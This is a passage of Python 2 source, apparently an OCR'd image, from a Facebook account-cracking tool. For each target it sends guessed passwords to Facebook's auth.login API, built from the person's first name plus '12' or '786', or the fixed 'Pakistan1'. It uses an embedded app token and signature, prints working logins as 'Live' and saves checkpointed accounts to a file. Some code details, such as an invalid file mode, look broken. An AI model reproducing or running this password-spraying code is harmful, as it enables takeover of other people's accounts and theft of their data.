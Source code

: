 									if 'access_token' in s:
										print '\x1b[1;93mLive\x1b[1;97m \x1b[1;97m\x1b[1;97m ' + user + ' \x1b[1;97m\x1b[1;97m' + pass4
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in s["error_msg"]:
											print '\x1b[1;93mError\x1b[1;97m \x1b[1;97m\x1b[1;97m ' + user + ' \x1b[1;97m\x1b[1;97m ' + pass4
											cek = open("out/checkpoint.txt", "k")
											cek.write(user+"|"+pass4+"\n")
											cek.close()
											cekpoint.append(user+pass4)
										else:
											pass5 = y['first_name'] + '12'
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											s = json.load(data)
											if 'access_token' in s:
												print '\x1b[1;93mLive\x1b[1;97m \x1b[1;97m\x1b[1;97m ' + user + ' \x1b[1;97m\x1b[1;97m ' + pass5
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in s["error_msg"]:
													print '\x1b[1;93mError\x1b[1;97m \x1b[1;97m\x1b[1;97m ' + user + ' \x1b[1;97m\x1b[1;97m ' + pass5
													cek = open("out/checkpoint.txt", "k")
													cek.write(user+"|"+pass5+"\n")
													cek.close()
													cekpoint.append(user+pass5)
												else:
													pass6 = y['first_name'] + '786'
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													s = json.load(data)
													if 'access_token' in s:
														print '\x1b[1;93mLive\x1b[1;97m \x1b[1;97m\x1b[1;97m ' + user + ' \x1b[1;97m\x1b[1;97m ' + pass6
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in s["error_msg"]:
															print '\x1b[1;93mError\x1b[1;97m \x1b[1;97m\x1b[1;97m ' + user + ' \x1b[1;97m\x1b[1;97m ' + pass6
															cek = open("out/checkpoint.txt", "k")
															cek.write(user+"|"+pass6+"\n")
															cek.close()
															cekpoint.append(user+pass6)
														else:
															pass7 = 'Pakistan1'
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															s = json.load(data)
															if 'access_token' in s:
																print '\x1b[1;93mLive\x1b[1;97m \x1b[1;97m\x1b[1;97m ' + user + ' \x1b[1;97m\x1b[1;97m ' + pass7
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in s["error_msg"]:
																	print '\x1b[1;93mError\x1b[1;97m \x1b[1;97m\x1b[1;97m ' + user + ' \x1b[1;97m\x1b[1;97m ' + pass7
																	cek = open("out/checkpoint.txt", "k")
																	cek.write(user+"|"+pass7+"\n")
																	cek.close()
																	cekpoint.append(user+pass7)
																	